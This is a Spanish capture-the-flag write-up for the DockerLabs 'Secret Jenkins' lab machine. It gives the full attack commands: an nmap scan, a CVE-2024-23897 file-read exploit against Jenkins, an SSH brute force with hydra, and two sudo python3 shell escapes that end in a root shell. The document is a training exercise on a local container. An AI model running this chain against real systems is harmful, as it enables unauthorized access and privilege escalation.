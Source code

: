 # Secret Jenkins

## Dificultad: Facil

Empezamos descargando la imagen de dockerlabs

![Descarga de Dockerlabs](./descarga.png)

y luego, seguido de un:

```bash
unzip secretjenkins.zip
```

Para poder descomprimirlo, desplegamos la maquina usando el comando

```bash
sudo ./auto_deploy.sh secretjenkins.tar
```

![Despliegue de Secret Jenkins](./despliegue.png)

Ahora que la maquina ya esta desplegada, si podemos comenzar con el hackeo!

# Reconocimiento

Usando nmap podremos escanear la red en busca de los servicios que tiene la maquina dentro

```bash
nmap -sV -p- 172.17.0.2 -Pn

- -sV: Detecta versiones de servicios
- -Pn: No realiza ping a la máquina
- -p-: Escanea todos los puertos
```

![Escaneo de puertos](./escaneo.png)

Podemos detectar que hay un servicio de Jenkins corriendo en el puerto **8080**, especificamente la version **10.0.18**, ademas de un usual ssh en el puerto **22**.

Al buscar la version usando searchsploit encontramos que no hay una vulnerabilidad en esa version en nuestra maquina

```bash
searchsploit Jetty 10.0.18
Exploits: No Results
Shellcodes: No Results
```

Sin embargo, al entrar a la interfaz de Jenkins, podemos ver que hay un panel de usuario y contraseña, por lo que me llama a seguir buscando un exploit que me permita acceder a la máquina, solo para evitar recurrir a métodos más invasivos.

# Explotación

Luego de una busqueda, podemos encontrar un exploit concreto que nos puede ayudar en este caso. El [CVE-2024-23897](https://nvd.nist.gov/vuln/detail/CVE-2024-23897) que nos permite leer archivos del sistema. Gracias a nuestro querido amigo "El Pinguino de Mario" podemos encontrar un [script en python](https://github.com/Maalfer/CVE-2024-23897) que nos permite explotar esta vulnerabilidad.

Clonamos el repositorio y accedemos a el

```bash
git clone https://github.com/Maalfer/CVE-2024-23897.git
cd CVE-2024-23897
```

![Clonacion de repo](./clone.png)

Una vez dentro del directorio, podemos ver que hay un archivo python llamado `CVE-2024-23897.py` que usaremos con el mismo ejemplo dentro del repo, para que nos permita leer el archivo `/etc/passwd` de la maquina, para buscar algun usuario divertido.

```bash
python3 CVE-2024-23897.py 172.17.0.2 8080 /etc/passwd
```

![Explotacion de la vulnerabilidad](./exploit.png)

Podemos ver dos usuarios que pueden ser interesantes...

- **bobby**
- **pinguinito**

Ambos usuarios parecen ser interesantes, por lo que podemos intentar realizar un ataque de fuerza bruta sobre el ssh del inicio para ver si alguno tiene una credencial, empezemos con bobby.

```bash
hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![fuerza bruta](./hydra.png)

Con el usuario bobby podemos ver que ha sido exitoso en el ataque de fuerza bruta, obteniendo la siguiente contraseña:

- **chocolate**

Asi que ahora podemos intentar acceder al ssh de la maquina usando estas credenciales.

```bash
ssh bobby@172.17.0.2
```

![ssh](./ssh.png)

Y estamos dentro de la máquina!

# Escalación de privilegios

Una vez dentro utilizamos el comando `sudo -l` para buscar los permisos de sudo que tiene el usuario bobby.

```bash
bobby@7e70d0a3ba24:~$ sudo -l

Matching Defaults entries for bobby on 7e70d0a3ba24:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bobby may run the following commands on 7e70d0a3ba24:
    (pinguinito) NOPASSWD: /usr/bin/python3
```

Podemos ver que el usuario bobby puede ejecutar el comando `/usr/bin/python3` como el usuario `pinguinito` sin necesidad de contraseña. Esto significa que podemos intentar cambiar de usuario a `pinguinito` y obtener una shell con privilegios elevados.

Buscando en GTFOBins encontramos que podemos usar el siguiente comando para obtener una shell como el usuario de los permisos:

![GTFOBins](./gtfobins.png)

```bash
sudo -u pinguinito python3 -c 'import os; os.system("/bin/bash")'
```

- **sudo -u pinguinito**: ejecuta el comando como el usuario `pinguinito`
- **python3 -c 'import os; os.system("/bin/bash")'**: ejecuta un comando de Python que importa el módulo `os` y ejecuta una shell de bash

Esto nos dará una shell interactiva como el usuario `pinguinito`, lo que nos permitirá explorar el sistema con mayores privilegios.

![Shell interactiva](./pinguinito.png)

Ahora como el usuario pinguinito podemos explorar el sistema con mayores privilegios. Usando otro `sudo -l` podemos revisar sus permisos

```bash
pinguinito@7e70d0a3ba24:/home/bobby$ sudo -l
Matching Defaults entries for pinguinito on 7e70d0a3ba24:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pinguinito may run the following commands on 7e70d0a3ba24:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

Podemos ver que el usuario `pinguinito` puede ejecutar el script `/opt/script.py` como cualquier usuario sin necesidad de contraseña. Esto significa que podemos intentar ejecutar este script para obtener una shell con privilegios elevados.

por ende vamos a cambiar el script para que nos de una shell de root en los siguientes pasos:

1. Cambiamos los permisos del script para poder modificarlo

```bash
pinguinito@7e70d0a3ba24:/home/bobby$ chmod +w /opt/script.py
```

2. Modificamos el contenido del script con el payload de la shell de python

```bash
pinguinito@7e70d0a3ba24:/home/bobby$ echo 'import os; os.system("/bin/bash")' > /opt/script.py
```

3. ejecutamos el script con sudo

```bash
pinguinito@7e70d0a3ba24:/home/bobby$ sudo /usr/bin/python3 /opt/script.py
```

![root](./elevacionroot.png)

Y una vez con el usuario root, hemos conseguido escalar privilegios y obtener acceso total al sistema!